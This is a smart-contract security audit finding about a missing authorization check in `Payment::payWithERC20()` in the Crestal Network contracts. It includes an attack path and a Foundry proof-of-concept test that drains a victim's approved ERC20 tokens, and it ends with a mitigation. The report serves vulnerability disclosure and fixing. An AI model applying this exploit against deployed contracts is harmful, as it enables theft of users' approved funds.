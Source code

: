 Soaring Caramel Dragon

High

# Missing authorization check in `Payment::payWithERC20()` allows unauthorized token transfers

### Summary

Missing authorization checks in `Payment::payWithERC20()` will cause unauthorized token transfers for any user as an attacker can transfer approved tokens from any address without permission.

### Root Cause

The `Payment::payWithERC20()` public function lacks authorization checks, allowing any caller to specify arbitrary `fromAddress` parameters when transferring tokens.

https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32

### Internal Pre-conditions

N/A

### External Pre-conditions

1. User needs to approve the contract to spend their ERC20 tokens, which they need to do it to interact with BlueprintCore contract, for example, to create an agent via the `createAgent()` function.

### Attack Path

1. User approves the `BlueprintV5` contract to spend X amount of their tokens
2. Attacker calls `BlueprintV5::payWithERC20()` with the following parameters:
   - `fromAddress`: victim's address
   - `toAddress`: attacker's address
   - `amount`: any amount up to the approved amount
   - `erc20TokenAddress`: the approved token address
3. The tokens are transferred from victim to attacker due to the existing approval

### Impact

The victim suffers a complete loss of their approved tokens. The attacker gains all the transferred tokens with no restrictions.

### PoC

Create a new test case in `test/UnauthorizedTokenTransfer.t.sol` to demonstrate the attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {BlueprintV5} from "../src/BlueprintV5.sol";
import {MockERC20} from "./MockERC20.sol";

contract UnauthorizedTokenTransferTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public token;

    address victim = address(0x1);
    address attacker = address(0x2);

    function setUp() public {
        token = new MockERC20();

        blueprint = new BlueprintV5();
        blueprint.initialize();
        blueprint.addPaymentAddress(address(token));
    }

    function test_unauthorizedTokenTransfer() public {
        // Setup: Victim has 1000 tokens and approves Payment contract
        uint256 initialBalance = 1000e18;
        token.mint(victim, initialBalance);

        // Initial balances
        assertEq(token.balanceOf(victim), initialBalance);
        assertEq(token.balanceOf(attacker), 0);

        // Victim approves the contract to spend their tokens
        vm.prank(victim);
        token.approve(address(blueprint), initialBalance);

        // Attacker steals funds
        vm.prank(attacker);
        blueprint.payWithERC20(address(token), initialBalance, victim, attacker);

        // Attacker now has all tokens
        assertEq(token.balanceOf(victim), 0);
        assertEq(token.balanceOf(attacker), initialBalance);

        // Victim has no tokens left to spend
        vm.prank(victim);
        vm.expectRevert();
        blueprint.userTopUp(address(token), initialBalance);
    }
}
```

Run the test case:

```bash
forge test --mt test_unauthorizedTokenTransfer
```

### Mitigation

The `Payment::payWithERC20()` function should be made internal and only callable from other methods of the `BlueprintV5` contract.